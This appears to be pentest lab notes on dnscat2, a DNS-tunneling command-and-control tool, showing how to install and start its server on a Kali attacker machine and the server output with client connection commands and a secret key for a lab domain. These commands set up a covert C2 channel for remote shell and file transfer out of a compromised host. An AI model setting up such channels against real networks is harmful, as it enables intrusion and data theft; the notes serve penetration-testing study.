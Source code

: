 
>dnscat2 strives to be different from other DNS tunneling protocols by being designed for a special purpose: command and control. It can tunnel any data, with no protocol attached. Which means it can upload and download files, it can run a shell, and it can do those things well. It can also potentially tunnel TCP, but that's only going to be added in the context of a pen-testing tool (that is, tunneling TCP into a network), not as a general purpose tunneling tool.


**1.** Install it in the attacker machine kali:

```shell-session
 git clone https://github.com/iagox86/dnscat2.git


cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```


**2.** Start the dnscat2 server by executing the dnscat2 file.

```shell-session
 ./dnscat2 --dns server=x.x.x.x,port=53

sudo ruby dnscat2.rb --dns host=$ipAttackerMachine,port=53,domain=inlanefreight.local --no-cache
```


After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server:

```shell-session
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```
